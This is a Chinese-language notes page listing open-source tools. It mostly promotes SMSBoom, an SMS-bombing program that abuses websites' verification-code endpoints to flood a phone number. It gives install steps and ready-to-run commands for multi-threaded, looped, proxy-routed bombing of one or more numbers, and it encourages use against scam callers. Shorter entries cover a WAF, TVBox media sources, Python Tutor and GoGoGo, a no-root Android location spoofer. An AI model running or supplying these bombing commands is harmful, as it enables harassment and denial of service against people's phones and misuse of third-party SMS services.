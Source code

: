资料来源：<br/>
[smsboom](https://github.com/OpenEthan/SMSBoom)


## smsboom
在 GitHub 上看到一个高一美术生写的一个健壮免费的python短信轰炸程序，专门炸坏蛋蛋，百万接口，多线程全自动添加有效接口，支持异步协程百万并发，自己对自己的号码用了一下，确实是短信轰炸，要不是及时 Ctrl C，怕是手机要崩溃。

其实原理很简单，明白之后，你也可以做一个。就是调用很多网站注册账户时发送手机验证码的接口，给要指定的手机号发送无穷无尽的验证码，看个图片就明白了

![63b87ab058adf9bbf7a6fc10c0271ca5](img\63b87ab058adf9bbf7a6fc10c0271ca5.jpg ':size=60%')：

## 项目地址

https://github.com/WhaleFell/SMSBoom

## 使用方法

下载，并安装依赖：

```javascript
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
cd SMSBoom
pip install requirements.txt 
```

复制

单线程调用：

```javascript
python smsboom.py oneRun -p 198xxxxxxxx
```

复制

多线程调用：

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

协程调用：

```javascript
python smsboom.py asyncRun -p 198xxxxxxxx
```

复制

### **命令示例**

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

复制

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

复制

## 最后

好用是真的好用，但请不要滥用，我能想到的就是对那些是手机号的诈骗电话可以试一下。此外，这个仓库可以作为我们学习多线程和协程的一个有趣的开源项目。如果觉得有帮助，请点赞。



## 数据安全

https://github.com/chaitin/SafeLine

![b6ffd4219c5d464d86ef6744032d6def~tplv-obj_3802_2160](img/b6ffd4219c5d464d86ef6744032d6deftplv-obj_3802_2160-1700705753469.gif)

![4384063524c34d89b2deb5f358c81dfd~tplv-obj_3794_2160](img/4384063524c34d89b2deb5f358c81dfdtplv-obj_3794_2160-1700705760358.gif)


## tv boxtvbox

TV box 是一个很好用的电视源软件

https://github.com/liu673cn/box  （github）

https://www.mydigit.cn/thread-378643-1-1.html （资料列表）

有数据源头

https://jinlilu.lanzouv.com/iM6Vd22r9sfe
密码:gcsu

## 代码调试工具

https://pythontutor.com/

资料来源：[有了这玩意儿还怕看不懂代码？ #Python #编程 #程序员](https://www.toutiao.com/video/7316533054045061632/?app=news_article&timestamp=1703905378&share_uid=MS4wLjABAAAAZblTiuFIZV2qCCaxUIsbQnjd4qdImHK9EQws1N68M-8&is_hit_share_recommend=0&utm_campaign=client_share&wxshare_count=1&tt_from=weixin&utm_source=weixin&utm_medium=toutiao_android&share_token=a2b470f3-5dc7-4d60-bba4-11a4b75fe421&source=m_redirect&wid=1703924410467)

## 安卓修改定位

[偷偷用！别乱传！一款开源的定位修改工具](https://mp.weixin.qq.com/s/bb9yPyMgQoRE5uoxM1mcTQ)

今天推荐的这个项目是「GoGoGo」，影梭，用于 Android 8.0+ 的无需 ROOT 权限的虚拟定位 App，基于 Android 调试 API + 百度地图及定位 SDK 实现的安卓定位修改工具，并且同时实现了一个可以自由控制移动的摇杆。使用影梭，不需要 ROOT 权限就可以随意修改自己的当前位置以及模拟移动。

功能

1. 定位修改
2. 摇杆控制移动
3. 历史记录
4. 位置搜索
5. 直接输入坐标

用法

1. 下载 Apk 直接安装

2. 启动影梭，赋予相关权限

3. 单击地图位置，然后点击启动按钮

   ![图片](../../java/idea/img/4cec53600d7a4d86a25b53dd7fda0e.png)

> 开源项目地址：https://github.com/ZCShou/GoGoGo
>
> 开源项目作者：ZCShou





